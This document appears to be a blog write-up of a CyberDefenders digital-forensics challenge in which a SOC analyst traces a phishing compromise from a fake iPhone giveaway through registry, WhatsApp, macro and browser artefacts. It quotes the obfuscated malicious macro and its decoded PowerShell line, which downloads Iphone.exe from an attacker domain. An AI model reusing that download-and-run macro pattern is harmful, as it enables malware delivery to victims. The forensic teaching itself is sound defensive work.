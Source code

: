 ```yaml
---
title: "Cyberdefenders · Digital Forensics · Phishy"
date: 2023-08-04T19:16:00+03:00
draft: false
---
```


The scenario:

> A company’s employee joined a fake iPhone giveaway. Our team took a disk image of the employee's system for further analysis.
As a soc analyst, you are tasked to identify how the system was compromised.

## Abstract

In this article, I investigate a cyber incident involving a fake iPhone giveaway that targeted an employee at a company. As a SOC analyst, my mission is to determine how the system was compromised. Through careful analysis, I uncover the victim machine's hostname, identify the messaging app installed as WhatsApp, and trace the malicious download URL used by the attacker. 

The investigation reveals that the attacker used obfuscated macros in a document to execute a program named "Iphone.exe," downloaded from "http[:]//appIe.com/Iphone.exe." The malware is identified as a Meterpreter trojan created using the Metasploit framework. The attacker's IP address is found to be 155.94.69.27. Moreover, I discover the URL of the login page used in the fake giveaway as "http[:]//appIe.competitions.com/login.php," and the password submitted to this page is obtained using the PasswordFox tool. Here is why you should to raise awareness against phishing, consequences could be harmfull.

![Illustration of an old hook.](/img/write-up/hook.jpg)

<figcaption>Illustration of an old hook.</figcaption>

## Q1. What is the hostname of the victim machine?

Autopsy seems to not support the AD1 format. So I extracted the `SYSTEM` Windows Registry located at `Windows/System32/config/` using FTKImager. After, you can open it with various tools such as [RegistryExplorer from Eric Zimmerman](https://ericzimmerman.github.io/#!index.md) or [AccessData Registry Viewer](https://accessdata-registry-viewer.software.informer.com/download/).

According to [this post](https://superuser.com/questions/1539088/find-hostname-of-an-windows-image), the machine name is located here: `SYSTEM\ControlSet00X\Control\ComputerName\ComputerName`. The path is a little bit different but it's still the same logic: `WIN-NF3JQEU4G0T`.

## Q2. What is the messaging app installed on the victim machine?

Firstly, I tried to use [Autopsy](https://www.autopsy.com/) on this challenge, without success. Launching ingest module on the provided file only returns some email related strings, this is where I found the messaging app; WhatsApp. The "academic" method would be to look in `Program Files` and `Program Files (x86)` but there is nothing related to a messaging app. Sometimes, programs are installed directly on the user directory: `Users/Semah/AppData/Local/`, here you can find the WhatsApp directory.

## Q3. The attacker tricked the victim into downloading a malicious document. Provide the full download URL.

Firstly, I extracted all the WatsApp databases located at: `Users/AppData/Roaming/WhatsApp/Databases` and opened it with [sqliteviewer.app](https://sqliteviewer.app/). I found a conversation inside `msgstore.db > message_ftsv2` with this message: 

> okay you can check this file below :  https : / / drive.google.com / file / d / 1l1xn6r - za4w1me2uze8lxh45gfhsw66d / view ? usp = sharing readme.txt https : / / drive.google.com / file / d / 1l1xn6r - za4w1me2uze8lxh45gfhsw66d / view ? usp = sharing & usp = embed_facebook

Unfortunately, this is not the answer.

I finally found this fantastic tool: [WhatsApp Viewer](https://andreas-mausch.de/whatsapp-viewer/) which is very easy to use. When I opened the `msgstore.db`, the tool found an another discussion with the answer: `http[:]//appIe.com/IPhone-Winners.doc`. I wanted to know why I was unable to find theses messages. In fact, the messages was located in... `message` table, I just didn't saw them because of the interface! Lesson learned, be carreful and look for the good tool first.

## Q4. Multiple streams contain macros in the document. Provide the number of the highest stream.

Using the [Oledump python script](https://blog.didierstevens.com/programs/oledump-py/), you can find that the highest stream which contains macro (marqued with the "M" letter in the output bellow), is 10.

```
python oledump_V0_0_75\oledump.py export-folder\IPhone-Winners.doc

  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      8473 '1Table'
  5:       501 'Macros/PROJECT'
  6:        68 'Macros/PROJECTwm'
  7:      3109 'Macros/VBA/_VBA_PROJECT'
  8:       800 'Macros/VBA/dir'
  9: M    1170 'Macros/VBA/eviliphone'
 10: M    5581 'Macros/VBA/iphoneevil'
 11:      4096 'WordDocument'
```

## Q5. The macro executed a program. Provide the program name?

First, you have to extract both of the macros:

```
$ python oledump_V0_0_75\oledump.py -s 10 -v export-folder\IPhone-Winners.doc

Attribute VB_Name = "iphoneevil"
Function lllllllll1l()
    Dim lllllllllll As String
    Dim llllllllll1 As String
    lllllllllll = Chr(97) [...] Chr(65)
    llllllllll1 = Chr(112) [...] Chr(100) & lllllllllll
    CreateObject(Chr(87) & Chr(83) & Chr(99) & Chr(114) & Chr(105) & Chr(112) & Chr(116) & Chr(46) & Chr(83) & Chr(104) & Chr(101) & Chr(108) & Chr(108)).Run llllllllll1, 0, True
End Function

$ python oledump_V0_0_75\oledump.py -s 9 -v export-folder\IPhone-Winners.doc

Attribute VB_Name = "eviliphone"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Private Sub _
Document_open()
lllllllll1l
End Sub
```

The stream number 10 is obfuscated. I translated all the `Chr` function parameter into ASCII values and observed that it looks like base64. Here is the decoded payload (last line of the 10th stream) :

```
CreateObject(WScript.Shell).Run invoke-webrequest - Uri   'http://appIe.com/Iphone.exe' -OutFile 'C:\Temp\IPhone.exe' -UseDefaultCredentialÀ, 0, True
```

The malicious macro launch a downloading from the same domain as the user downloaded the infectied doc file, using Powershell.

## Q6. The macro downloaded a malicious file. Provide the full download URL.

Already answered in the previous question.

## Q7. Where was the malicious file downloaded to? (Provide the full path)

Already answered in the previous question.

## Q8. What is the name of the framework used to create the malware?

My antivirus gives me the answer as it deleted the file with a pop-up showing that the malware is a Meterpreter trojan. An other way is to calculate the Iphone.exe's hash and search on VirusTotal, you will see that the program is related to Meterpreter too. A third way is to extract the file and extract the strings inside, I'm pretty sure that you will find Meterpreter inside. Unfortunately my AV doesn't want to extract the file so I will consider this solution as valid too.

An internet research about "Meterpreter framework" gives the framework name: Metasploit.

## Q9. What is the attacker's IP address?

VT provides various IoCs related to this malware, like these IP addresses:

- 155.94.69.27

- 192.168.0.30	

- 192.229.221.95	

- 20.99.133.109	

- 23.216.147.76	

- 52.185.73.156	

Thanks to the answer pattern you can easily identifie the correct one. Otherwise, a string extraction should provides IP addresses too.

## Q10. The fake giveaway used a login page to collect user information. Provide the full URL of the login page?

I was stucked on this question for a while. I found the history database located at `C:\Users\<username>\AppData\Roaming\Mozilla\Firefox\Profiles\<profile folder>\places.sqlite` into the `moz_places` table but when I wanted to open it with a SQLite viewer I didn't see the answer. I saw a weird domain named `https://for1.q21.ctfsecurinets.com` and when I opened the **same** file with Autopsy I saw the answer: `http://appIe.competitions.com/login.php`.

Thanks to [@0xHasanM](https://cyberdefenders.org/p/0xHasanM#overview), I finally understood the problem. It was because of the WAL file, used to ensure data integrity in the database. Some datas are contained in `places.sqlite-wal`, like the answer. That's why Autopsy retrieved the flag, because it also used the WAL with the SQLite file, and that's why my online viewer couldn't retrieve the login page URL.

## Q11. What is the password the user submitted to the login page?

I used [PasswordFox](https://www.nirsoft.net/utils/passwordfox.html), selected the profile folder and opened it with the tool, the password is displayed on the screen.
